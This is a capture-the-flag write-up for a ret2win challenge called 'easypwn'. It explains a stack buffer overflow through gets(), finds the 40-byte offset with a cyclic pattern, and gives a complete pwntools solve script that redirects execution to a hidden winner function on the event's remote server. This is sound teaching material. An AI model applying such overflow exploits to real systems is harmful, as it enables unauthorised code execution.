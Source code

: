 There is also a function `winner` inside the binary, which is not called anywhere, but will print us the flag if called. A classic ret2win challenge.


We can see in the `hello` function that `gets(v1)` is called. `gets` is dangerous to use, because it reads in *everything* that is given as input, leading to buffer overflows being possible. Also, since we can see from running `checksec` that there is no stack canaries, nothing stops us from performing the buffer overflow.


Given that buffer `v1` is only 32 bytes in size, if we supply more than 32 bytes we will overflow and overwrite values on the stack. The return address is stored on the stack, so if we overflow it we can redirect the program execution to run the `winner` function, instead of returning back to `main`.


If we send a *cyclic* sequence as input, we can read the address where we crashed, which is `0x6161616161616166`. The `cyclic -l 0x6161616161616166` in pwndbg gives us the offset to this subsequence.

![GDB](gdb_offset.png){: w="500" h="500" }

```console
pwndbg> cyclic -l 0x6161616161616166
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

Knowing the offset we can construct a payload which overflows the `v1` buffer and parts of the stack (with non-important values) with 40 bytes, and then overwrites the return address located on the stack with the address of `winner`. When the `hello` function returns, the `winner` function should then be called instead, because of our overwrite.

The address of `winner` finds *pwntools* for us (but can also be found in many other ways, such as IDA, Objdump, and more).

```python
payload = b"A" * 40            # Padding to the return address on the stack
payload += p64(exe.sym.winner) # Convert the address we want to call into bytes
```

We can construct a solve script
```python
from pwn import *

exe = context.binary = ELF("./easypwn", checksec=False)
io = remote("io.ept.gg", 30004)
io.clean()                     # Skip the stuff printed in the terminal before our input

payload = b"A" * 40            # Padding to the return address on the stack
payload += p64(exe.sym.winner) # Convert the address we want to call into bytes

io.sendline(payload)
io.interactive()
```

Running the solve-script on the remote instance gives us the flag
```console
loevland@hp-envy:~/ctf/ept/pwn/easypwn$ python3 solve.py
[+] Opening connection to io.ept.gg on port 30004: Done
[*] Switching to interactive mode
Hello!
What's your name?
Goodbye, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12@!
You are Winner! Flag:
EPT{S0meth1n6_2_ge7_u_5t4rt3d}
```
